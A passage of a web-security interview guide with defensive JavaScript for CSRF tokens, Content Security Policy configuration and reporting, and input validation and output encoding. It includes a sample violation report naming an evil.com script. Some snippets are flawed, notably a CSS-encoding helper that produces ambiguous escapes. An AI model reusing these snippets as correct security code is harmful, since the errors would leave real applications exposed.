    res.cookie('session', sessionToken, {
      httpOnly: true,
      secure: true,
      sameSite: 'lax'
    });

    // Set CSRF token cookie (NOT httpOnly - needs to be read by JS)
    res.cookie('csrfToken', csrfToken, {
      httpOnly: false,  // Must be readable by JavaScript
      secure: true,
      sameSite: 'lax'
    });

    res.json({ success: true });
  }
});

// Frontend - Read CSRF token from cookie
function getCookie(name) {
  const value = `; ${document.cookie}`;
  const parts = value.split(`; ${name}=`);
  if (parts.length === 2) return parts.pop().split(';').shift();
}

api.interceptors.request.use((config) => {
  if (['post', 'put', 'patch', 'delete'].includes(config.method)) {
    const csrfToken = getCookie('csrfToken');
    if (csrfToken) {
      config.headers['X-CSRF-Token'] = csrfToken;
    }
  }
  return config;
});
```

### 4. Custom Headers for SPAs:

```javascript
// For SPAs using JSON APIs
// Attacker cannot set custom headers from <form> or  tags

// Backend - Require custom header
app.use('/api', (req, res, next) => {
  // Check for custom header indicating legitimate request
  if (!req.headers['x-requested-with']) {
    return res.status(403).json({
      error: 'Custom header required'
    });
  }
  next();
});

// Frontend - Axios always includes custom header
const api = axios.create({
  baseURL: '/api',
  withCredentials: true,
  headers: {
    'X-Requested-With': 'XMLHttpRequest' // Custom header
  }
});

// This works because:
// 1. Forms and images cannot set custom headers
// 2. Fetch/XHR from different origin triggers CORS preflight
// 3. Preflight is blocked by Same-Origin Policy
```

### 5. Comprehensive CSRF Protection:

```javascript
// Complete example combining multiple strategies
// Backend - Express middleware
import csrf from 'csurf';
import cookieParser from 'cookie-parser';

app.use(cookieParser());

// CSRF protection middleware
const csrfProtection = csrf({
  cookie: {
    httpOnly: false,  // Frontend needs to read it
    secure: true,
    sameSite: 'strict'
  }
});

// Apply to all routes except public ones
app.use('/api', csrfProtection);

// Endpoint to get CSRF token
app.get('/api/csrf-token', (req, res) => {
  res.json({ csrfToken: req.csrfToken() });
});

// Protected endpoint
app.post('/api/transfer', async (req, res) => {
  // CSRF token validated automatically by middleware
  const { to, amount } = req.body;
  await performTransfer(req.user.id, to, amount);
  res.json({ success: true });
});

// Error handler for CSRF token errors
app.use((err, req, res, next) => {
  if (err.code === 'EBADCSRFTOKEN') {
    res.status(403).json({
      error: 'Invalid CSRF token',
      message: 'Please refresh the page and try again'
    });
  } else {
    next(err);
  }
});
```

### Key Points:
- Use SameSite=Lax or Strict for cookie-based authentication
- Implement CSRF tokens for critical state-changing operations
- Custom headers provide CSRF protection for SPAs (with CORS)
- Double submit cookie is stateless but requires HTTPS
- Combine multiple defenses for defense-in-depth
- Never use GET requests for state-changing operations

### Common Pitfalls:
- Relying only on SameSite without CSRF tokens
- Making CSRF cookies httpOnly (frontend can't read them)
- Not validating CSRF tokens on all state-changing requests
- Using weak or predictable CSRF tokens
- Not refreshing CSRF tokens after critical operations
- Forgetting to handle CSRF token errors gracefully

### Interview Tips:
- Explain why SameSite alone may not be sufficient
- Discuss the trade-offs between synchronizer token and double submit
- Mention that custom headers work for SPAs due to CORS preflight
- Emphasize defense-in-depth approach
- Show awareness of legacy browser support for SameSite
- Explain when each strategy is most appropriate

### Further Reading:
- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [SameSite Cookie Specification](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite)

---

## Q5: What is Content Security Policy (CSP) and how does it protect against XSS?

### Answer:
Content Security Policy (CSP) is a security layer that helps detect and mitigate XSS and data injection attacks by controlling which resources the browser is allowed to load. CSP is implemented via HTTP headers or meta tags that define approved sources for scripts, styles, images, and other resources.

CSP works as a whitelist-based approach where you explicitly specify trusted sources. Even if an attacker manages to inject malicious code, CSP prevents its execution by blocking inline scripts and restricting resource loading to approved domains. This provides defense-in-depth protection against XSS attacks.

### CSP Protection Model:



### CSP Directives and Examples:

```javascript
// Backend - Node.js/Express with Helmet
import helmet from 'helmet';
import express from 'express';

const app = express();

// Basic CSP configuration
app.use(
  helmet.contentSecurityPolicy({
    directives: {
      // Default fallback for all resource types
      defaultSrc: ["'self'"],

      // Script sources
      scriptSrc: [
        "'self'",                        // Same origin
        "https://cdn.jsdelivr.net",      // Trusted CDN
        "'nonce-{RANDOM}'",              // Nonce for inline scripts
      ],

      // Style sources
      styleSrc: [
        "'self'",
        "https://fonts.googleapis.com",
        "'sha256-{HASH}'"                // Hash for specific inline style
      ],

      // Image sources
      imgSrc: [
        "'self'",
        "data:",                         // Data URIs
        "https:",                        // Any HTTPS image
      ],

      // Font sources
      fontSrc: [
        "'self'",
        "https://fonts.gstatic.com"
      ],

      // Where fetch/XHR can connect
      connectSrc: [
        "'self'",
        "https://api.example.com"
      ],

      // Frame sources (iframes)
      frameSrc: ["'none'"],              // Disallow all iframes

      // Object sources (plugins like Flash)
      objectSrc: ["'none'"],

      // Base URI for relative URLs
      baseUri: ["'self'"],

      // Form action targets
      formAction: ["'self'"],

      // Upgrade insecure requests to HTTPS
      upgradeInsecureRequests: [],

      // Block mixed content
      blockAllMixedContent: [],
    },
  })
);

// Advanced CSP with nonces for React
app.use((req, res, next) => {
  // Generate unique nonce for each request
  res.locals.nonce = crypto.randomBytes(16).toString('base64');
  next();
});

app.use(
  helmet.contentSecurityPolicy({
    directives: {
      defaultSrc: ["'self'"],
      scriptSrc: [
        "'self'",
        (req, res) => `'nonce-${res.locals.nonce}'`, // Dynamic nonce
      ],
      styleSrc: ["'self'", "'unsafe-inline'"], // React often needs this
      imgSrc: ["'self'", "data:", "https:"],
      connectSrc: ["'self'", "https://api.example.com"],
      objectSrc: ["'none'"],
      upgradeInsecureRequests: [],
    },
  })
);

// Serve index.html with nonce
app.get('*', (req, res) => {
  res.send(`
    <!DOCTYPE html>
    <html>
      <head>
        <meta charset="utf-8">
        <title>My App</title>
      </head>
      <body>
        <div id="root"></div>
        <!-- Nonce allows this specific inline script -->
        <script nonce="${res.locals.nonce}">
          window.__NONCE__ = '${res.locals.nonce}';
        </script>
        <script src="/static/js/main.js" nonce="${res.locals.nonce}"></script>
      </body>
    </html>
  `);
});
```

### CSP Levels and Strictness:

```javascript
// Level 1: Very Permissive (Not Recommended)
const permissiveCSP = {
  directives: {
    defaultSrc: ["'self'", "'unsafe-inline'", "'unsafe-eval'", "*"],
  }
};
// Problems: Allows inline scripts, eval(), and any external source
// Provides minimal protection

// Level 2: Moderate (Acceptable for Development)
const moderateCSP = {
  directives: {
    defaultSrc: ["'self'"],
    scriptSrc: ["'self'", "'unsafe-inline'"],
    styleSrc: ["'self'", "'unsafe-inline'"],
    imgSrc: ["'self'", "data:", "https:"],
  }
};
// Problems: Still allows inline scripts/styles
// Vulnerable to many XSS attacks

// Level 3: Strict (Recommended for Production)
const strictCSP = {
  directives: {
    defaultSrc: ["'self'"],
    scriptSrc: ["'self'", "'nonce-{RANDOM}'"],
    styleSrc: ["'self'", "'nonce-{RANDOM}'"],
    imgSrc: ["'self'", "data:", "https:"],
    connectSrc: ["'self'", "https://api.example.com"],
    objectSrc: ["'none'"],
    baseUri: ["'self'"],
    formAction: ["'self'"],
    frameAncestors: ["'none'"],
    upgradeInsecureRequests: [],
  }
};
// Benefits: Blocks inline scripts, restricts sources
// Provides strong XSS protection

// Level 4: Very Strict (Maximum Security)
const veryStrictCSP = {
  directives: {
    defaultSrc: ["'none'"],
    scriptSrc: ["'strict-dynamic'", "'nonce-{RANDOM}'"],
    styleSrc: ["'nonce-{RANDOM}'"],
    imgSrc: ["'self'"],
    connectSrc: ["'self'"],
    objectSrc: ["'none'"],
    baseUri: ["'none'"],
    requireTrustedTypesFor: ["'script'"],
  }
};
// Benefits: Strict dynamic loading, trusted types
// Requires careful implementation
```

### React + CSP Implementation:

```javascript
// Frontend - React with CSP nonces
// public/index.html (template)
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <!-- CSP meta tag (if server headers not available) -->
    <meta
      http-equiv="Content-Security-Policy"
      content="default-src 'self'; script-src 'self' 'nonce-__CSP_NONCE__'; style-src 'self' 'nonce-__CSP_NONCE__';"
    />
    <title>React App</title>
  </head>
  <body>
    <div id="root"></div>
  </body>
</html>

// Server replaces __CSP_NONCE__ with actual nonce
// Or use React Helmet for dynamic CSP

// Using React Helmet
import { Helmet } from 'react-helmet';

function App() {
  return (
    <>
      <Helmet>
        <meta
          httpEquiv="Content-Security-Policy"
          content="default-src 'self'; script-src 'self'; object-src 'none';"
        />
      </Helmet>
      <div className="App">
        {/* Your app content */}
      </div>
    </>
  );
}

// Webpack configuration for nonces (Create React App ejected)
// In webpack config:
const HtmlWebpackPlugin = require('html-webpack-plugin');

module.exports = {
  plugins: [
    new HtmlWebpackPlugin({
      template: 'public/index.html',
      cspNonce: process.env.CSP_NONCE || 'development-nonce',
    }),
  ],
};
```

### CSP Reporting:

```javascript
// Configure CSP reporting to monitor violations
app.use(
  helmet.contentSecurityPolicy({
    directives: {
      defaultSrc: ["'self'"],
      scriptSrc: ["'self'"],
      // Report violations to this endpoint
      reportUri: ['/api/csp-violation-report'],
      // Use report-to for newer spec
      reportTo: 'csp-endpoint',
    },
    reportOnly: false, // Set to true for testing without blocking
  })
);

// Report-To header (newer specification)
app.use((req, res, next) => {
  res.setHeader('Report-To', JSON.stringify({
    group: 'csp-endpoint',
    max_age: 10886400,
    endpoints: [{ url: 'https://example.com/api/csp-reports' }],
  }));
  next();
});

// CSP violation report endpoint
app.post('/api/csp-violation-report', express.json({ type: 'application/csp-report' }), (req, res) => {
  const violation = req.body['csp-report'];

  console.error('CSP Violation:', {
    blockedUri: violation['blocked-uri'],
    violatedDirective: violation['violated-directive'],
    originalPolicy: violation['original-policy'],
    documentUri: violation['document-uri'],
    sourceFile: violation['source-file'],
    lineNumber: violation['line-number'],
  });

  // Log to monitoring service
  monitoringService.logCSPViolation(violation);

  res.status(204).end();
});

// Example violation report
{
  "csp-report": {
    "blocked-uri": "https://evil.com/malicious.js",
    "document-uri": "https://example.com/page",
    "violated-directive": "script-src 'self'",
    "original-policy": "default-src 'self'; script-src 'self'",
    "source-file": "https://example.com/page",
    "line-number": 42
  }
}
```

### Testing CSP:

```javascript
// Use Report-Only mode for testing
app.use(
  helmet.contentSecurityPolicy({
    directives: {
      defaultSrc: ["'self'"],
      scriptSrc: ["'self'"],
      reportUri: ['/api/csp-violation-report'],
    },
    reportOnly: true, // Doesn't block, only reports
  })
);

// Browser DevTools shows CSP violations
// Console: "Refused to execute inline script because it violates CSP directive"

// Testing tools:
// 1. CSP Evaluator: https://csp-evaluator.withgoogle.com/
// 2. SecurityHeaders.com: https://securityheaders.com/
// 3. Mozilla Observatory: https://observatory.mozilla.org/
```

### Key Points:
- CSP is a whitelist-based approach to allowed resources
- Blocks inline scripts by default (requires nonces or hashes)
- Provides defense-in-depth against XSS attacks
- Can operate in report-only mode for testing
- Requires careful configuration to avoid breaking functionality
- Modern browsers support CSP Level 2 and Level 3

### Common Pitfalls:
- Using 'unsafe-inline' or 'unsafe-eval' (defeats CSP purpose)
- Not testing CSP before deploying (breaks legitimate functionality)
- Forgetting to include trusted CDN sources
- Not implementing CSP reporting
- Using meta tag instead of HTTP header (weaker)
- Not updating CSP when adding new external resources

### Interview Tips:
- Explain CSP as defense-in-depth, not primary XSS prevention
- Discuss nonces vs hashes for inline scripts
- Mention report-only mode for safe testing
- Show awareness of CSP levels and strictness
- Explain why 'unsafe-inline' should be avoided
- Discuss CSP reporting for security monitoring

### Further Reading:
- [MDN Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [Google CSP Guide](https://developers.google.com/web/fundamentals/security/csp)
- [CSP Evaluator](https://csp-evaluator.withgoogle.com/)

---

## Q6: How do you properly sanitize and validate user input on both frontend and backend?

### Answer:
Input sanitization and validation require a comprehensive approach on both frontend and backend. Frontend validation provides immediate user feedback and reduces unnecessary server requests, while backend validation is the critical security layer that prevents malicious data from entering the system. Never trust frontend validation alone as it can be easily bypassed.

Effective input handling involves: validating data type and format, sanitizing to remove dangerous characters, encoding output appropriately, using whitelist approaches over blacklist, and implementing proper error handling. Both frontend and backend must work together with backend validation being the source of truth.

### Input Validation Architecture:



### Frontend Validation and Sanitization:

```javascript
// utils/validators.js - Frontend validation utilities
export const validators = {
  // Email validation
  email: (value) => {
    const emailRegex = /^[^\s@]+@[^\s@]+\.[^\s@]+$/;
    if (!emailRegex.test(value)) {
      return 'Invalid email address';
    }
    return null;
  },

  // Password strength
  password: (value) => {
    if (value.length < 8) {
      return 'Password must be at least 8 characters';
    }
    if (!/[A-Z]/.test(value)) {
      return 'Password must contain an uppercase letter';
    }
    if (!/[a-z]/.test(value)) {
      return 'Password must contain a lowercase letter';
    }
    if (!/[0-9]/.test(value)) {
      return 'Password must contain a number';
    }
    if (!/[^A-Za-z0-9]/.test(value)) {
      return 'Password must contain a special character';
    }
    return null;
  },

  // Username validation
  username: (value) => {
    if (value.length < 3 || value.length > 20) {
      return 'Username must be 3-20 characters';
    }
    if (!/^[a-zA-Z0-9_-]+$/.test(value)) {
      return 'Username can only contain letters, numbers, hyphens, and underscores';
    }
    return null;
  },

  // URL validation
  url: (value) => {
    try {
      const url = new URL(value);
      if (!['http:', 'https:'].includes(url.protocol)) {
        return 'URL must use HTTP or HTTPS protocol';
      }
      return null;
    } catch {
      return 'Invalid URL format';
    }
  },

  // Phone number (US format)
  phone: (value) => {
    const phoneRegex = /^\(?([0-9]{3})\)?[-. ]?([0-9]{3})[-. ]?([0-9]{4})$/;
    if (!phoneRegex.test(value)) {
      return 'Invalid phone number format';
    }
    return null;
  },

  // Credit card (basic Luhn algorithm)
  creditCard: (value) => {
    const cleaned = value.replace(/\s/g, '');
    if (!/^\d{13,19}$/.test(cleaned)) {
      return 'Invalid credit card number';
    }

    // Luhn algorithm
    let sum = 0;
    let isEven = false;
    for (let i = cleaned.length - 1; i >= 0; i--) {
      let digit = parseInt(cleaned[i], 10);
      if (isEven) {
        digit *= 2;
        if (digit > 9) {
          digit -= 9;
        }
      }
      sum += digit;
      isEven = !isEven;
    }

    if (sum % 10 !== 0) {
      return 'Invalid credit card number';
    }
    return null;
  },
};

// utils/sanitizers.js - Frontend sanitization utilities
import DOMPurify from 'dompurify';

export const sanitizers = {
  // Remove HTML tags (for plain text fields)
  plainText: (value) => {
    return value.replace(/<[^>]*>/g, '');
  },

  // Sanitize HTML (for rich text)
  html: (value, options = {}) => {
    const defaultOptions = {
      ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'br', 'ul', 'ol', 'li'],
      ALLOWED_ATTR: ['href', 'title'],
      ALLOW_DATA_ATTR: false,
    };
    return DOMPurify.sanitize(value, { ...defaultOptions, ...options });
  },

  // Trim and normalize whitespace
  trim: (value) => {
    return value.trim().replace(/\s+/g, ' ');
  },

  // Remove null bytes
  removeNullBytes: (value) => {
    return value.replace(/\0/g, '');
  },

  // Alphanumeric only
  alphanumeric: (value) => {
    return value.replace(/[^a-zA-Z0-9]/g, '');
  },

  // Numeric only
  numeric: (value) => {
    return value.replace(/[^0-9]/g, '');
  },

  // Escape special characters for regex
  escapeRegex: (value) => {
    return value.replace(/[.*+?^${}()|[\]\\]/g, '\\$&');
  },
};

// hooks/useFormValidation.js - React validation hook
import { useState, useCallback } from 'react';
import { validators, sanitizers } from '../utils';

export function useFormValidation(schema) {
  const [values, setValues] = useState({});
  const [errors, setErrors] = useState({});
  const [touched, setTouched] = useState({});

  const validateField = useCallback((name, value) => {
    const fieldSchema = schema[name];
    if (!fieldSchema) return null;

    // Run validators
    for (const validator of fieldSchema.validators || []) {
      const error = validator(value);
      if (error) return error;
    }

    return null;
  }, [schema]);

  const handleChange = useCallback((name) => (e) => {
    let value = e.target.value;

    // Apply sanitizers
    const fieldSchema = schema[name];
    if (fieldSchema?.sanitizers) {
      for (const sanitizer of fieldSchema.sanitizers) {
        value = sanitizer(value);
      }
    }

    // Update value
    setValues(prev => ({ ...prev, [name]: value }));

    // Validate if already touched
    if (touched[name]) {
      const error = validateField(name, value);
      setErrors(prev => ({ ...prev, [name]: error }));
    }
  }, [schema, touched, validateField]);

  const handleBlur = useCallback((name) => () => {
    setTouched(prev => ({ ...prev, [name]: true }));
    const error = validateField(name, values[name]);
    setErrors(prev => ({ ...prev, [name]: error }));
  }, [values, validateField]);

  const validateAll = useCallback(() => {
    const newErrors = {};
    let isValid = true;

    Object.keys(schema).forEach(name => {
      const error = validateField(name, values[name]);
      if (error) {
        newErrors[name] = error;
        isValid = false;
      }
    });

    setErrors(newErrors);
    setTouched(Object.keys(schema).reduce((acc, key) => ({ ...acc, [key]: true }), {}));

    return isValid;
  }, [schema, values, validateField]);

  return {
    values,
    errors,
    touched,
    handleChange,
    handleBlur,
    validateAll,
    setValues,
  };
}

// Component usage
function RegistrationForm() {
  const schema = {
    username: {
      validators: [validators.username],
      sanitizers: [sanitizers.trim, sanitizers.alphanumeric],
    },
    email: {
      validators: [validators.email],
      sanitizers: [sanitizers.trim],
    },
    password: {
      validators: [validators.password],
      sanitizers: [],
    },
  };

  const form = useFormValidation(schema);

  const handleSubmit = async (e) => {
    e.preventDefault();

    if (!form.validateAll()) {
      return;
    }

    try {
      const response = await api.post('/auth/register', form.values);
      console.log('Registration successful:', response.data);
    } catch (error) {
      console.error('Registration failed:', error);
    }
  };

  return (
    <form onSubmit={handleSubmit}>
      <div>
        <input
          type="text"
          name="username"
          value={form.values.username || ''}
          onChange={form.handleChange('username')}
          onBlur={form.handleBlur('username')}
          placeholder="Username"
        />
        {form.touched.username && form.errors.username && (
          <div className="error">{form.errors.username}</div>
        )}
      </div>

      <div>
        <input
          type="email"
          name="email"
          value={form.values.email || ''}
          onChange={form.handleChange('email')}
          onBlur={form.handleBlur('email')}
          placeholder="Email"
        />
        {form.touched.email && form.errors.email && (
          <div className="error">{form.errors.email}</div>
        )}
      </div>

      <div>
        <input
          type="password"
          name="password"
          value={form.values.password || ''}
          onChange={form.handleChange('password')}
          onBlur={form.handleBlur('password')}
          placeholder="Password"
        />
        {form.touched.password && form.errors.password && (
          <div className="error">{form.errors.password}</div>
        )}
      </div>

      <button type="submit">Register</button>
    </form>
  );
}
```

### Backend Validation and Sanitization:

```javascript
// Backend - Node.js/Express with comprehensive validation
import express from 'express';
import { body, validationResult, param, query } from 'express-validator';
import createDOMPurify from 'dompurify';
import { JSDOM } from 'jsdom';
import validator from 'validator';

const app = express();
const window = new JSDOM('').window;
const DOMPurify = createDOMPurify(window);

// Validation middleware
const validateRegistration = [
  // Username validation
  body('username')
    .trim()
    .isLength({ min: 3, max: 20 })
    .withMessage('Username must be 3-20 characters')
    .matches(/^[a-zA-Z0-9_-]+$/)
    .withMessage('Username can only contain letters, numbers, hyphens, and underscores')
    .customSanitizer(value => validator.escape(value)),

  // Email validation
  body('email')
    .trim()
    .isEmail()
    .withMessage('Invalid email address')
    .normalizeEmail()
    .customSanitizer(value => validator.escape(value))
    .custom(async (email) => {
      const existingUser = await User.findOne({ email });
      if (existingUser) {
        throw new Error('Email already in use');
      }
      return true;
    }),

  // Password validation
  body('password')
    .isLength({ min: 8 })
    .withMessage('Password must be at least 8 characters')
    .matches(/[A-Z]/)
    .withMessage('Password must contain an uppercase letter')
    .matches(/[a-z]/)
    .withMessage('Password must contain a lowercase letter')
    .matches(/[0-9]/)
    .withMessage('Password must contain a number')
    .matches(/[^A-Za-z0-9]/)
    .withMessage('Password must contain a special character'),
];

// Registration endpoint
app.post('/api/auth/register', validateRegistration, async (req, res) => {
  // Check validation results
  const errors = validationResult(req);
  if (!errors.isEmpty()) {
    return res.status(400).json({ errors: errors.array() });
  }

  const { username, email, password } = req.body;

  // Additional sanitization
  const sanitizedUsername = validator.escape(username.trim());
  const sanitizedEmail = validator.normalizeEmail(email.trim());

  // Hash password (never store plain text)
  const hashedPassword = await bcrypt.hash(password, 12);

  try {
    const user = await User.create({
      username: sanitizedUsername,
      email: sanitizedEmail,
      password: hashedPassword,
    });

    res.status(201).json({
      message: 'User created successfully',
      userId: user.id
    });
  } catch (error) {
    res.status(500).json({ error: 'Registration failed' });
  }
});

// Comment creation with HTML sanitization
app.post('/api/comments',
  [
    body('text')
      .trim()
      .isLength({ min: 1, max: 5000 })
      .withMessage('Comment must be 1-5000 characters')
      .customSanitizer(value => {
        // Server-side HTML sanitization
        return DOMPurify.sanitize(value, {
          ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'p', 'br', 'a'],
          ALLOWED_ATTR: ['href'],
          ALLOWED_URI_REGEXP: /^https?:\/\//,
        });
      }),

    body('parentId')
      .optional()
      .isMongoId()
      .withMessage('Invalid parent comment ID'),
  ],
  async (req, res) => {
    const errors = validationResult(req);
    if (!errors.isEmpty()) {
      return res.status(400).json({ errors: errors.array() });
    }

    const { text, parentId } = req.body;

    const comment = await Comment.create({
      text,
      userId: req.user.id,
      parentId: parentId || null,
      createdAt: new Date(),
    });

    res.status(201).json({ comment });
  }
);

// Search with query parameter validation
app.get('/api/search',
  [
    query('q')
      .trim()
      .isLength({ min: 1, max: 100 })
      .withMessage('Search query must be 1-100 characters')
      .customSanitizer(value => validator.escape(value)),

    query('page')
      .optional()
      .isInt({ min: 1, max: 1000 })
      .withMessage('Page must be between 1 and 1000')
      .toInt(),

    query('limit')
      .optional()
      .isInt({ min: 1, max: 100 })
      .withMessage('Limit must be between 1 and 100')
      .toInt(),
  ],
  async (req, res) => {
    const errors = validationResult(req);
    if (!errors.isEmpty()) {
      return res.status(400).json({ errors: errors.array() });
    }

    const { q, page = 1, limit = 10 } = req.query;

    // Use parameterized queries to prevent SQL injection
    const results = await db.query(
      'SELECT * FROM posts WHERE title LIKE ? LIMIT ? OFFSET ?',
      [`%${q}%`, limit, (page - 1) * limit]
    );

    res.json({ results, page, limit });
  }
);

// URL parameter validation
app.get('/api/users/:userId',
  [
    param('userId')
      .isMongoId()
      .withMessage('Invalid user ID format'),
  ],
  async (req, res) => {
    const errors = validationResult(req);
    if (!errors.isEmpty()) {
      return res.status(400).json({ errors: errors.array() });
    }

    const user = await User.findById(req.params.userId);

    if (!user) {
      return res.status(404).json({ error: 'User not found' });
    }

    res.json({ user });
  }
);

// Custom validation middleware
const validateJSON = (req, res, next) => {
  if (req.is('application/json')) {
    return next();
  }
  res.status(415).json({ error: 'Content-Type must be application/json' });
};

// Rate limiting for input validation
import rateLimit from 'express-rate-limit';

const validationLimiter = rateLimit({
  windowMs: 15 * 60 * 1000, // 15 minutes
  max: 100, // Limit each IP to 100 requests per windowMs
  message: 'Too many requests, please try again later',
});

app.use('/api', validationLimiter);
```

### Output Encoding:

```javascript
// Always encode output based on context
// 1. HTML context
function encodeHTML(str) {
  const div = document.createElement('div');
  div.textContent = str;
  return div.innerHTML;
}

// 2. URL context
function encodeURL(str) {
  return encodeURIComponent(str);
}

// 3. JavaScript context
function encodeJS(str) {
  return JSON.stringify(str).slice(1, -1);
}

// 4. CSS context (avoid if possible)
function encodeCSS(str) {
  return str.replace(/[<>"'&]/g, (char) => {
    const hex = char.charCodeAt(0).toString(16);
    return `\\${hex}`;
  });
}

// Template example
// <div>${encodeHTML(userInput)}</div>
// <a href="/search?q=${encodeURL(searchQuery)}">Search</a>
// <script>const name = '${encodeJS(userName)}';</script>
```

### Key Points:
- Always validate and sanitize on both frontend and backend
- Backend validation is the security boundary (frontend can be bypassed)
- Use whitelist validation (allow known good) over blacklist (block known bad)
- Sanitize based on context (HTML, URL, SQL, etc.)
- Encode output appropriately for the rendering context
- Use parameterized queries to prevent SQL injection
- Validate data type, length, format, and allowed characters
- Provide clear error messages without revealing system details

### Common Pitfalls:
- Only validating on frontend (easily bypassed)
- Using blacklist instead of whitelist for allowed characters
- Not sanitizing HTML before storing in database
- Trusting data from hidden form fields
- Not validating file uploads (type, size, content)
- Insufficient error handling revealing system information
- Not encoding output based on context

### Interview Tips:
- Emphasize defense-in-depth: validate everywhere
- Discuss why backend validation is critical
- Explain context-specific encoding (HTML, URL, JS, CSS)
- Mention parameterized queries for SQL injection prevention
- Show awareness of business logic validation vs. security validation
- Discuss trade-offs between usability and strict validation

### Further Reading:
- [OWASP Input Validation Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html)
- [Express Validator Documentation](https://express-validator.github.io/docs/)
- [OWASP Output Encoding Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
